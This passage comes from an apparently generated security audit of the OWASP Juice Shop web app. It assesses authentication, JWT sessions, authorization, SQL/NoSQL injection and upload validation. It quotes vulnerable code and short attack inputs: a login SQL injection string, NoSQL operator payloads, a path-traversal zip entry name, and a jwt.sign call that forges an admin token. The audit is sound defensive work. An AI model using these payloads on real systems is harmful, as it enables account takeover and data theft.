|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🔴 Unsafe | 7 routed findings; catalogued controls are<br/>present but defeated (e.g. Password-Based<br/>Authentication, Multi-Factor Authentication<br/>(TOTP)). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. JWT Session Token Issuance,<br/>Session Token Storage). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🔴 Missing | 7 routed findings; required controls not in<br/>place (e.g. Object-Level Authorization (IDOR<br/>Prevention), Role-Based Access Control). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🔴 Missing | 3 routed findings; required controls not in<br/>place (e.g. SQL Injection Prevention<br/>(Parameterized Queries), NoSQL Injection<br/>Prevention). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. Server-Side Input Validation,<br/>File Upload Validation). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. XSS Output Encoding). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Missing | Required controls not in place (e.g. CORS<br/>Policy, Content Security Policy (CSP)). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Missing | 3 routed findings; required controls not in<br/>place (e.g. Password Hashing, Secret<br/>Management). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🟠 Weak | 3 routed findings; no compensating controls<br/>catalogued. |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 12 routed findings; required controls not in<br/>place (e.g. Dependency Update Management,<br/>Build Reproducibility (Lockfile)). |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Required controls not in place (e.g.<br/>WebSocket Authentication, Logging and Audit<br/>Trail). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 Threat Hypotheses Requiring Validation](#721-threat-hypotheses-requiring-validation)
- [7.2.2 Password-Based Authentication](#722-password-based-authentication)
- [7.2.3 Multi-Factor Authentication](#723-multi-factor-authentication)
- [7.2.4 OAuth / Social Login](#724-oauth-social-login)
- [7.2.5 User Registration](#725-user-registration)
- [7.2.6 Password Reset](#726-password-reset)

**Implemented controls:** Password login route is present (`routes/login.ts`), TOTP opt-in enrollment is implemented (`routes/2fa/`), OAuth adapter via Google is present (`oauth.component.ts`), password reset via security questions is present (`routes/resetPassword.ts`).

**Assessment:** Authentication controls exist across all major login paths - password, TOTP, OAuth, and security-question reset - but each is defeated by a distinct mechanism at or below the authentication boundary. The login route uses raw SQL interpolation enabling bypass without a credential. JWT verification does not constrain the algorithm, allowing unsigned tokens. The RSA signing key is committed to the public repository, allowing offline token forgery. Each successful authentication flow terminates in the server issuing a session token; the signing, validation, propagation, storage, and lifecycle of that token are described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-013](#f-013) — Mass Assignment Role Injection — `server.ts:419`<br/>🔴 [F-016](#f-016) — Unauthenticated WebSocket Channel — `registerWebsocketEvents.ts:24`<br/>🔴 [F-035](#f-035) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`<br/>🟡 [F-047](#f-047) — Unbounded Unauthenticated WebSocket Connection — `registerWebsocketEvents.ts:19` |
| Password login | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | - |
| Password reset / change | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | - |
| Password storage (hashing) | 🔴 Missing | [§7.9](#79-cryptography-secrets-and-data-protection) | 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt — `lib/insecurity.ts:43` |
| JWT / bearer-token session | 🔴 Missing | [§7.3](#73-session-and-token-controls) | 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54`<br/>🔴 [F-006](#f-006) — JWT Algorithm Confusion — `lib/insecurity.ts:54`<br/>🟠 [F-023](#f-023) — JWT Bearer Token in localStorage — `login.component.ts:101` |
| Session-token storage | 🔴 Missing | [§7.3](#73-session-and-token-controls) | 🟠 [F-023](#f-023) — JWT Bearer Token in localStorage — `login.component.ts:101` |
| Multi-factor authentication (TOTP / 2FA) | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| OAuth / OIDC federated login | 🟠 Weak | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

#### 7.2.1 Threat Hypotheses Requiring Validation

_Architecture- and control-derived threats. Plausible but not yet source-to-sink proven; each entry needs a `validate-or-refute` pentest probe before it becomes a finding._

| ID | Hypothesis | Control Gap | Evidence | Validation |
|-------|----------------------|----------------------|--------|----------------------|
| HYP-001 | XSS exposure from weak output encoding | Template Autoescape, Output Encoding,<br/>Content Security Policy | _?_ | _pending validation objective_ |
| HYP-002 | SQL injection exposure from ad-hoc SQL<br/>construction | Parameterized Queries, ORM / Repository<br/>Layer | _?_ | _pending validation objective_ |
| HYP-003 | Broken Access Control exposure from<br/>inconsistent AuthZ | Centralised AuthZ Policy, Role / Scope<br/>Enforcement, Ownership Check | _?_ | _pending validation objective_ |
| HYP-004 | State-changing or management route without<br/>an authentication gate | Route Authentication Middleware, Server-Side<br/>Session Enforcement | _?_ | _pending validation objective_ |
| HYP-005 | Authenticated object-addressing route<br/>without an authorization gate (BOLA/IDOR<br/>surface) | Object-Level Ownership Check, Tenant Scoping | _?_ | _pending validation objective_ |
| HYP-006 | Broken input validation exposure | Schema Validation, Allowlist Validation | _?_ | _pending validation objective_ |

<a id="password-based-authentication"></a>

**Security assessment**

_Not assessed in detail; see the control overview in [§7.1](#71-security-control-overview)._

**Relevant findings**

- None identified for this control.
#### 7.2.2 Password-Based Authentication

**Status:** 🟠 Weak - password login exists but the query is injectable and unsalted `MD5` hashing erases credential resistance.

`routes/login.ts` implements the password login endpoint. On a successful credential check, `lib/insecurity.ts:issueAuthToken()` signs a `{ id, email, role }` payload and returns a JWT to the caller. The password lifecycle spans four stages: login verification, user registration (initial set), password reset via security question, and password change - all operating against the same `Users` table through Sequelize models.

The diagram shows the intended password login path:



**Security assessment**

Two independent weaknesses sit on this login path:

- `routes/login.ts:34` builds the WHERE clause via template-literal interpolation of `req.body.email` into a raw `models.sequelize.query()` call. The payload `' OR '1'='1` short-circuits the clause and returns the seeded admin row - no password required.
- `lib/insecurity.ts:43` hashes passwords with `crypto.createHash('md5')` with no salt. Any SQLite dump obtained through the injection path above yields plaintext credentials via public rainbow tables.

The login raw query that exposes both weaknesses:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`
)
```

**Relevant findings**

- 🔴 [F-003](#f-003) — OAuth adapter inherits the same login endpoint, so its token exchange also traverses the injectable query.
- 🔴 [F-004](#f-004) — Insecure JWT verification means a successful login is not required to obtain a valid session token.
- 🔴 [F-005](#f-005) — Unsalted MD5 hashing means a credential dump from this route's SQL injection surface converts to plaintext immediately.

<a id="multi-factor-authentication"></a><a id="multi-factor-authentication-totp"></a>
#### 7.2.3 Multi-Factor Authentication

**Status:** 🟡 Partial - TOTP enrollment and verification are implemented but MFA is opt-in and not enforced for privileged accounts.

TOTP-based two-factor authentication is available as an opt-in second factor. Users enroll by scanning a QR code generated server-side; the TOTP secret is stored per-user in the database. On each login, users who have enrolled are prompted for their current 6-digit code, which is verified server-side before a session token is issued.

The diagram shows the TOTP-enforced login path for an enrolled user:



**Security assessment**

TOTP enrollment and verification work correctly when enabled. The control gap is that MFA is not enforced for administrator or privileged accounts - an attacker who bypasses the password step (via SQL injection at `routes/login.ts:34`) never reaches the TOTP gate. The TOTP path itself is also bypassed when JWT algorithm confusion (🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54`) or hardcoded key forgery (🔴 [F-010](#f-010) — Hardcoded Cryptographic Key — `lib/insecurity.ts:23`) is used to mint a token directly, since those paths skip the login route entirely.

**Relevant findings**

- 🔴 [F-003](#f-003) — OAuth login skips the TOTP gate because it calls the local login endpoint after deriving credentials, not the 2FA verify route.
- 🔴 [F-004](#f-004) — Algorithm confusion allows token minting without touching any login or TOTP route.

<a id="oauth-social-login"></a>
#### 7.2.4 OAuth / Social Login

**Status:** 🟠 Weak - OAuth acts as a frontend identity adapter, not a server-side OIDC flow; the derived password is computable from the user's email.

`oauth.component.ts` reads the Google access token from the redirect URL fragment (`response_type=token` - implicit flow), calls Google's userinfo endpoint to fetch the user's email, then derives a deterministic local Juice Shop password as `btoa(profile.email.split('').reverse().join(''))`. This derived credential is used to call the standard `POST /rest/user/login` endpoint. No server-side OAuth handling exists; the token exchange occurs entirely in the Angular SPA.

The diagram shows how the frontend OAuth adapter ultimately routes into the local login:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA
    Note over SPA: oauth.component.ts
    participant Google as Google UserInfo API
    participant API
    Note over API: Local Login Route
    participant Issuer
    Note over Issuer: issueAuthToken()

    User->>SPA: Return from OAuth redirect (#access_token=...)
    SPA->>Google: GET userinfo with access_token
    Google-->>SPA: { email, ... }
    SPA->>API: POST /rest/user/login (derived password)
    API->>Issuer: Sign {id, email, role}
    Issuer-->>SPA: JWT
```

**Security assessment**

The derived password (`btoa(email.split('').reverse().join(''))`) is a reversible, publicly computable function of the user's email. Any attacker who knows a target's email can compute this password offline in one line and log in directly via the standard login endpoint - bypassing OAuth entirely. No `state` parameter is generated or validated, removing CSRF protection from the redirect. The implicit flow delivers the access token in the URL fragment, which is visible to scripts on the page and preserved in browser history. The resulting session inherits the SQL injection and JWT weaknesses of the standard login path.

The password derivation at `oauth.component.ts:30`:

```ts
const password = btoa(profile.email.split('').reverse().join(''))
```

**Relevant findings**

- 🔴 [F-003](#f-003) — OAuth implicit flow with derived password allows account takeover using only the target's email address.

<a id="user-registration"></a>
#### 7.2.5 User Registration

**Status:** 🔴 Unsafe - user registration accepts attacker-controlled `role` fields directly from the request body.

User registration is handled by the Sequelize REST auto-router, which exposes `POST /api/Users` via `server.ts:419`. The route allows callers to create new user accounts by supplying a JSON body with email, password, and optional additional fields.

The diagram shows the intended registration path:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    Note over API: POST /api/Users (server.ts:419)
    participant DB as Users table

    Attacker->>API: POST /api/Users { email, password, role: "admin" }
    API->>DB: INSERT INTO Users (email, password, role) VALUES (...)
    DB-->>API: Created user row
    API-->>Attacker: 201 Created { id, email, role: "admin" }
```

**Security assessment**

`server.ts:419` registers the `/api/Users` route using the Sequelize REST auto-router without an allowlist of accepted fields. A caller who includes `"role": "admin"` in the registration body receives an account with administrative privileges. No server-side field filtering strips the `role` attribute before the ORM write. `GET /api/Users` (the user list endpoint) is registered without authentication middleware at `server.ts:310`, making the full user database readable unauthenticated.

The registration call that succeeds with role escalation:

```ts
// server.ts:419 — auto-router binds /api/Users to Sequelize REST without field allowlist
sequelizeRestRouter.use(models.User, { allowedAttributes: undefined })
```

**Relevant findings**

- 🔴 [F-013](#f-013) — Mass assignment via `role` field in registration body grants admin privileges to any self-registered user.
- 🔴 [F-016](#f-016) — Unauthenticated WebSocket channel exposed at registration time.
- 🔴 [F-035](#f-035) — `GET /api/Users` registered without authentication middleware exposes the user list to anyone.
- 🟡 [F-047](#f-047) — WebSocket connection flooding possible from unauthenticated registration context.

<a id="password-reset"></a>
#### 7.2.6 Password Reset

**Status:** 🔴 Unsafe - reset relies on a security-question answer with no token, no rate limit, and guessable answers for seeded accounts.

`POST /rest/user/reset-password` accepts an email address, the answer to the registered security question, and a new password. `routes/resetPassword.ts:41` compares the supplied answer to the stored `SecurityAnswer` row and updates the password column on match. No out-of-band token (email link) is involved; control rests entirely on the answer.

The diagram shows the intended single-step reset path:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    Note over API: POST /rest/user/reset-password
    participant DB
    Note over DB: Users + SecurityAnswers

    Attacker->>API: { email, answer, newPassword }
    API->>DB: SELECT SecurityAnswer WHERE UserId = user.id
    DB-->>API: Stored answer
    API->>API: Compare supplied answer
    API->>DB: UPDATE Users SET password = hash(newPassword)
    DB-->>API: OK
    API-->>Attacker: 200 - password changed
```

**Security assessment**

Security-question answers for the seeded accounts (admin, Jim, Bender, Björn) are publicly known from the Juice Shop challenge documentation and from the accessible user list at `GET /api/Users`. The route has no rate limit - an attacker can enumerate answers programmatically. There is no email notification or confirmation, so account takeover via this path is silent. This design is a structural weakness: knowledge-based authentication is not a substitute for an out-of-band verification token.

**Relevant findings**

- 🟠 [F-015](#f-015) — Insecure password recovery allows account takeover by guessing or looking up security-question answers.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.3.1 JWT Session Token Issuance](#731-jwt-session-token-issuance)
- [7.3.2 Session Token Storage](#732-session-token-storage)

**Implemented controls:** `RS256` algorithm is selected for JWT issuance (`lib/insecurity.ts:56`), one-hour token expiry is configured.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. The signing key is committed to the repository and the verifier does not constrain the algorithm, making token forgery available without any credential. Token storage in `localStorage` means any XSS payload can exfiltrate the session credential.

<a id="jwt-session-token-issuance"></a>
#### 7.3.1 JWT Session Token Issuance

**Status:** 🔴 Missing - the signing key is publicly committed, making the `RS256` signature boundary meaningless.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts:issueAuthToken()` signs a `{ data: { id, email, role } }` payload using `jwt.sign()` with the RSA private key from `lib/insecurity.ts:23`. The token uses `RS256` and a one-hour expiry. Both the login route and the TOTP verify route call this single helper, so the JWT format is uniform across all authentication flows.

The diagram shows the positive issuance path from a verified user record to the encoded JWT:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant API
    Note over API: Login / 2FA Route
    participant Issuer
    Note over Issuer: issueAuthToken() (lib/insecurity.ts)
    participant Key as RSA Private Key (lib/insecurity.ts:23)

    User->>API: Successful credential check
    API->>Issuer: Sign payload {id, email, role}
    Issuer->>Key: Load private key
    Key-->>Issuer: PEM bytes (hardcoded string)
    Issuer-->>API: Encoded JWT (RS256, 1h)
    API-->>User: { token, bid, umail }
```

**Security assessment**

The control that should protect token integrity - asymmetric signing with a secret key - is defeated because the private key is committed as a string literal at `lib/insecurity.ts:23` in a public repository. Any party who clones the repository can call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, privateKey, { algorithm: 'RS256' })` and produce a token the server's `isAuthorized()` middleware accepts. The `deluxeToken()` helper at `lib/insecurity.ts:152` derives an HMAC from the same committed key, so the deluxe-subscription entitlement check is equally defeated.

The hardcoded key embedded in source:

```ts
// lib/insecurity.ts:23
export const privateKey = '[PEM PRIVATE KEY — REDACTED]...'
```

**Relevant findings**

- 🟠 [F-023](#f-023) — JWT token is stored in `localStorage` after issuance, exposing it to XSS theft.

<a id="session-token-storage"></a>
#### 7.3.2 Session Token Storage

**Status:** 🔴 Missing - JWT is stored in `localStorage`, reachable by any script on the page.

⚠ **Anti-pattern:** SPA without BFF

`login.component.ts:101` writes the JWT returned from the login API into `localStorage`: `localStorage.setItem('token', result.authentication.token)`. The Angular SPA reads the token from `localStorage` on each subsequent API call and includes it in the `Authorization: Bearer` header. No `HttpOnly` cookie is used, so the credential store is accessible to JavaScript running in the page context.

**Security assessment**

`localStorage` is readable by any JavaScript in the same origin, including injected scripts. The stored XSS in the admin feedback panel (🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78`) exfiltrates the admin token via `localStorage.getItem('token')` in the scenario payload. There is no Backend-for-Frontend pattern that would hold the token in an `HttpOnly Secure SameSite=Strict` cookie inaccessible to scripts. As long as XSS is achievable anywhere in the application, `localStorage` token storage makes session hijacking a single script execution away.

**Relevant findings**

- 🟠 [F-023](#f-023) — JWT stored in `localStorage` is directly exfiltrated by the stored XSS in the admin panel.

### 7.4 Authorization Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.4.1 Object-Level Authorization](#741-object-level-authorization)
- [7.4.2 Role-Based Access Control](#742-role-based-access-control)

**Implemented controls:** `express-jwt` middleware is applied to some routes to require a valid token; Angular route guards restrict UI navigation for the admin panel.

**Assessment:** Route-level authentication (requiring a valid JWT) is applied inconsistently and several sensitive routes in `server.ts` lack any middleware. Where authentication is enforced, no object-level ownership check validates that the requesting user may access the specific resource ID in the request. The Angular-side route guard (`app.guard.ts`) is client-side-only and has no server-side counterpart for the admin endpoints it protects.

<a id="object-level-authorization"></a><a id="object-level-authorization-idor-prevention"></a>
#### 7.4.1 Object-Level Authorization

**Status:** 🔴 Missing - resource handlers derive the owner from `req.body` rather than from the authenticated session.

Object-level authorization is the server-side check that ensures a logged-in user can access only their own resources. In this codebase, address, basket item, order, payment, and wallet routes are protected by the `express-jwt` middleware (requiring a valid token), but once authenticated, the WHERE clause uses a user ID supplied in the request body or query string rather than the ID extracted from the verified JWT.

**Security assessment**

Routes across `routes/address.ts`, `routes/basketItems.ts`, `routes/dataExport.ts`, `routes/delivery.ts`, `routes/deluxe.ts`, `routes/memory.ts`, `routes/order.ts`, `routes/orderHistory.ts`, `routes/payment.ts`, and `routes/wallet.ts` build their database queries using `req.body.UserId`, `req.body.userId`, `req.params.id`, or similar attacker-controlled values without comparing them to `req.user.data.id`. Any authenticated user can substitute another user's ID and read or modify that user's data across all 20 affected call-sites.

The address lookup pattern repeated across routes:

```ts
// routes/address.ts:11 — IDOR via body-supplied UserId
const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
```

**Relevant findings**

- 🔴 [F-008](#f-008) — Systemic IDOR across 20 route call-sites allows cross-user data access for any authenticated user.
- 🔴 [F-011](#f-011) — NoSQL injection in product reviews can also be used to read or modify other users' review records.
- 🔴 [F-013](#f-013) — Mass assignment during registration bypasses the ownership model entirely by granting admin role.

<a id="role-based-access-control"></a>
#### 7.4.2 Role-Based Access Control

**Status:** 🟠 Weak - role claim is trusted from the JWT payload without database cross-check; the admin route guard is client-side only.

Role-based access is enforced through the `role` field embedded in the JWT payload. The backend checks `req.user.data.role === 'admin'` for admin-restricted actions. The Angular SPA uses `app.guard.ts:52` to hide the `/administration` route for non-admin users.

**Security assessment**

Two independent paths defeat role enforcement:

- The JWT role claim is trusted from the token payload without querying the database to confirm the user's current role. With the private key committed to the repository, an attacker signs a token with `role: 'admin'` and the backend accepts it.
- `app.guard.ts:52` (the admin route guard) is a client-side Angular guard. It is trivially bypassed by navigating directly to `/administration` or by modifying the SPA routing table in browser developer tools - there is no server-side enforcement blocking the underlying `/api/Feedbacks` and `/api/Users` calls from non-admin tokens.

**Relevant findings**

- 🔴 [F-008](#f-008) — IDOR means role enforcement does not prevent cross-user data access once authenticated.
- 🔴 [F-011](#f-011) — NoSQL selector injection can also escalate access beyond intended scope.
- 🔴 [F-013](#f-013) — Mass assignment allows self-promotion to admin role at registration time.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.5.1 SQL Injection Prevention](#751-sql-injection-prevention)
- [7.5.2 NoSQL Injection Prevention](#752-nosql-injection-prevention)

**Implemented controls:** Sequelize ORM is used for most data access; a 200-character truncation is applied to the search query parameter (`routes/search.ts:22`).

**Assessment:** Sequelize backs the majority of data access through its ORM query builder, which parameterizes values correctly. However, the login route and product search route bypass the ORM and construct raw SQL strings via template-literal interpolation. The MarsDB (in-memory NoSQL) query paths accept attacker-controlled JavaScript objects in `$where` clauses and `_id` filters without sanitization.

<a id="sql-injection-prevention"></a><a id="sql-injection-prevention-parameterized-queries"></a>
#### 7.5.1 SQL Injection Prevention

**Status:** 🔴 Missing - two routes bypass the ORM and interpolate user input directly into raw SQL strings.

Sequelize models back most relational data access; the ORM's query builder passes values as bound parameters. The login route (`routes/login.ts:34`) and the product search route (`routes/search.ts:23`) call `models.sequelize.query()` with a template-literal string, bypassing the ORM entirely.

**Security assessment**

Two independent raw-SQL paths accept user-controlled input without parameterization:

- `routes/login.ts:34` interpolates `req.body.email` into the WHERE clause. `' OR '1'='1` returns the first Users row (the seeded admin) without a password.
- `routes/search.ts:23` interpolates `req.query.q` into a LIKE pattern. A UNION-based payload dumps the entire Users table including `MD5` password hashes.

The product search query illustrating the raw SQL interpolation:

```ts
// routes/search.ts:23
models.sequelize.query(
  `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`
)
```

**Relevant findings**

- 🔴 [F-007](#f-007) — SQL injection in the login route allows authentication bypass without any credential.
- 🔴 [F-009](#f-009) — SQL injection in the product search route allows full database exfiltration unauthenticated.
- 🔴 [F-019](#f-019) — Sequelize query logging is disabled, meaning successful injections leave no audit trail.

<a id="nosql-injection-prevention"></a>
#### 7.5.2 NoSQL Injection Prevention

**Status:** 🔴 Missing - MarsDB query paths accept JavaScript operator objects and `$where` clauses from attacker-controlled request fields.

MarsDB (an in-memory MongoDB-compatible store) is used for product reviews. `routes/showProductReviews.ts` and `routes/updateProductReviews.ts` pass request body fields directly into MarsDB query selectors.

**Security assessment**

Two MarsDB paths accept attacker-controlled query structure:

- `routes/showProductReviews.ts:36` passes `req.query.id` directly as a MarsDB `$where` JavaScript function body. The clause `"1===1"` matches all reviews; a busy-wait payload blocks the Node\.js event loop.
- `routes/updateProductReviews.ts:17` passes `req.body._id` unvalidated into a `db.update({ _id: req.body._id }, ..., { multi: true })` call. Supplying a MongoDB-style operator object (e.g. `{ "$gt": "" }`) matches all review documents and overwrites them simultaneously.

**Relevant findings**

- 🔴 [F-007](#f-007) — Cross-references the broader injection surface alongside SQL.
- 🔴 [F-009](#f-009) — Cross-references the data-exfiltration surface.
- 🔴 [F-019](#f-019) — Absent query logging means NoSQL injections are similarly undetected.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 Server-Side Input Validation](#762-server-side-input-validation)
- [7.6.3 File Upload Validation](#763-file-upload-validation)

**Implemented controls:** `multer` middleware enforces a file-size limit on file uploads; a 200-character truncation is applied to the search query string.

**Assessment:** No centralized server-side validation framework is in place. Individual routes perform ad-hoc checks at best (a length truncation, a MIME type check on file upload). The file upload handler processes uploaded archives without validating their content structure, enabling path traversal via crafted filenames inside zip archives.

<a id="validation-approach"></a>
#### 7.6.1 Validation Approach

**Status:** 🔴 Missing - no schema validation layer; each route performs ad-hoc checks or none at all.

Input validation in this codebase is route-by-route. There is no middleware-level schema validation (e.g. Joi, Zod, express-validator) applied globally or at the router level. Individual routes extract fields from `req.body`, `req.params`, and `req.query` and use them directly.

**Security assessment**

The absence of a schema validation layer means input shape, type, and range are enforced inconsistently. Routes that do validate (e.g. the 200-character search truncation at `routes/search.ts:22`) do so as one-off code, not as a reusable policy. Routes that accept object-shaped values (the MarsDB selectors, the registration `role` field) do not validate the structural shape of the input before using it in a query or ORM write. Adding a schema validation middleware (Joi or Zod) at the router level would provide a consistent baseline across all endpoints.

**Relevant findings**

- 🟠 [F-034](#f-034) — Insufficient input validation allows injection attacks across multiple routes.
- 🟡 [F-046](#f-046) — File upload path traversal succeeds because the archive content is not validated before extraction.

<a id="server-side-input-validation"></a>
#### 7.6.2 Server-Side Input Validation

**Status:** 🔴 Missing - user-controlled values flow to SQL, NoSQL, and file-system sinks without boundary checks.

Server-side input validation should reject or sanitize values before they reach a database query, a file-system path, or an HTML output sink. In this codebase, `req.body.email`, `req.query.q`, `req.query.id`, and uploaded file paths reach their respective sinks without normalization or type enforcement.

**Security assessment**

No allowlist validation is applied before the SQL injection sinks at `routes/login.ts:34` and `routes/search.ts:23`. No structural validation prevents a MongoDB operator object from being passed as `req.body._id` to the MarsDB update. No filename sanitization prevents a path-traversal payload inside a zip archive from resolving to an arbitrary server path. These are four distinct categories of missing validation routed through the same structural gap: the absence of any server-side input validation layer.

**Relevant findings**

- 🟠 [F-034](#f-034) — Insufficient input validation is the root structural gap across injection categories.
- 🟡 [F-046](#f-046) — Path traversal in the archive extraction path exploits the missing filename validation.

<a id="file-upload-validation"></a>
#### 7.6.3 File Upload Validation

**Status:** 🔴 Missing - file content and archive entry paths are not validated before extraction.

`routes/fileUpload.ts` accepts file uploads via `multer` with a configurable file-size limit. The route handles both direct file writes and archive extraction (zip files via `unzipper`). After extracting entries from a zip archive, each entry's path is written to the uploads directory.

**Security assessment**

`routes/fileUpload.ts:83` extracts zip entry names without normalizing or validating the path before constructing the destination file path. An archive containing an entry named `../../../../etc/passwd` or `../routes/login.ts` writes to the corresponding server path. The `multer` size limit constrains file size but not archive content structure or entry count. The same upload route also passes the uploaded XML file to `libxmljs2` with `noent: true` (entity expansion enabled), exposing a separate XXE injection surface.

**Relevant findings**

- 🟠 [F-034](#f-034) — Archive path traversal via crafted zip entry names.
- 🟡 [F-046](#f-046) — XXE injection via `libxmljs2` with `noent: true` in the file upload handler.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🔴 Missing

